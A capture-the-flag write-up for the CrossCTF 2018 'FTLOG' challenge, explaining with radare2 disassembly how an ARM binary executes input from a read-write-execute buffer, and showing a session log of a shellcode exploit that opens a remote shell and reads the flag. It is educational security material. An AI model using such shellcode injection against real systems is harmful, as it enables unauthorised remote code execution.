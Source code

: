 # FTLOG

> https://youtu.be/RW2vXFLXtps
>  
> nc ctf.pwn.sg 4004
>  
> Hint: The raspberry Pis might come in handy but you can look at using qemu too.
>  
> Creator - amon (@nn_amon)


The program printed some art, then accepted input, then quit. Since the binary was not stripped, we looked for its `<main>` function in radare2.
```
➜  FTLOG git:(master) ✗ file ftlog 
ftlog: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=c3d8b29303d27686f7190bf2e3d88fc857517a3b, not stripped
```

![](xctf_2018_ftlog_main.png)


Let us break it down for you. First, the program allocated `0x200` bytes of memory. The address of the allocated memory was stored in the variable `alloc_mem`.

```
|           0x000105c8      020ca0e3       mov r0, 0x200               ; 512
|           0x000105cc      a94900eb       bl sym.malloc               ;  void *malloc(size_t size)
|           0x000105d0      0030a0e1       mov r3, r0
|           0x000105d4      0c300be5       str r3, [alloc_mem]         ; 0xc ; 12
```

`<mprotect>` made said allocated memory executable, readable and writable.

```
|           0x000105d8      0720a0e3       mov r2, 7                   ; 7
|           0x000105dc      021ca0e3       mov r1, 0x200               ; 512
|           0x000105e0      0c001be5       ldr r0, [alloc_mem]         ; 0xc ; 12
|           0x000105e4      f96000eb       bl sym.__mprotect
```

Then, the program `<read>`s `0x200` bytes from `stdin` into the allocated memory.
```
|           0x000105e8      022ca0e3       mov r2, 0x200               ; 512
|           0x000105ec      0c101be5       ldr r1, [alloc_mem]         ; 0xc ; 12
|           0x000105f0      0000a0e3       mov r0, 0
|           0x000105f4      a55d00eb       bl sym.__read
```

For some reason, the binary decided to store the address of the allocated memory in another variable called `alloc_mem_2`. Both pointer variables `alloc_mem` and `alloc_mem_2` pointed to the same allocated memory.
```
|           0x000105f8      0c301be5       ldr r3, [alloc_mem]         ; 0xc ; 12
|           0x000105fc      08300be5       str r3, [alloc_mem_2]       ; 0x8 ; 8
```

The allocated memory that we wrote into was then executed with the instruction `blx r3`.

```
|           0x00010600      08301be5       ldr r3, [alloc_mem_2]       ; 0x8 ; 8
|           0x00010604      33ff2fe1       blx r3
```

Our input just had to be a shellcode that gives us a shell. We tried our luck with a few shellcodes on Exploit Databases. A simple Google search gave us a few possible options

![](xctf_2018_ftlog_google_search_for_shellcodes.png)

We tried two shellcodes in our exploit script `soln_ftlong.py`, but they didn't work. Eventually [the third one did](https://www.exploit-db.com/exploits/43520/). 


```
➜  FTLOG git:(master) ✗ python2 soln_ftlong.py
[+] Opening connection to ctf.pwn.sg on port 4004: Done
[... some kinda art ...]
$ whoami
ftlog
$ find . -name "flag"
find: './etc/ssl/private': Permission denied
./home/ftlog/flag
find: './var/lib/apt/lists/partial': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './root': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
$ cat ./home/ftlog/flag
CrossCTF{slowmo_starroving_sugarforthepill_alison}
```
We got the flag.

